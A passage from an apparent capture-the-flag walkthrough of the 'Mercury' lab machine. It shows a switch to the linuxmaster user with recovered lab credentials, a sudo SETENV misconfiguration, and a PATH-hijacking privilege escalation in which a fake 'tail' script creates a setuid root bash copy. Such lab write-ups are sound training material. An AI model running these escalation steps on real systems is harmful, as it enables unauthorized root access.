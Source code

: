So, the credentials were:

- `webmaster:mercuryisthesizeof0.056Earths` (already known)
- `linuxmaster:mercurymeandiameteris4880km`


I attempted to switch user to `linuxmaster`:

```shellscript
webmaster@mercury:~/mercury_proj$ su linuxmaster
Password: mercurymeandiameteris4880km
```

This was successful, and I gained a shell as `linuxmaster`.

### Sudo Rights and Path Hijacking

As `linuxmaster`, I checked for `sudo` privileges:

```shellscript
linuxmaster@mercury:~$ sudo -l
```

Output:

```plaintext
User linuxmaster may run the following commands on mercury:
    (root : root) SETENV: /usr/bin/check_syslog.sh
```

This showed that `linuxmaster` could run `/usr/bin/check_syslog.sh` as root, and importantly, with `SETENV`, meaning environment variables like `PATH` could be preserved or set.

I inspected the `check_syslog.sh` script:

```shellscript
linuxmaster@mercury:~$ cat /usr/bin/check_syslog.sh
#!/bin/bash
tail -n 10 /var/log/syslog
```

The script simply executes `tail` without a full path (`/usr/bin/tail`). This is a classic path hijacking vulnerability. If I can place an executable named `tail` in a directory that appears earlier in the `PATH` environment variable than `/usr/bin`, my malicious `tail` will be executed instead of the legitimate one when `check_syslog.sh` is run with `sudo`.

I checked the current `PATH` for `linuxmaster`:

```shellscript
linuxmaster@mercury:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

My home directory `/home/linuxmaster` is not in the `PATH`. I need to add it to the beginning of the `PATH` variable.

I created a malicious `tail` script in `/home/linuxmaster`:

```shellscript
cat << 'EOF' > tail
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash
EOF
```
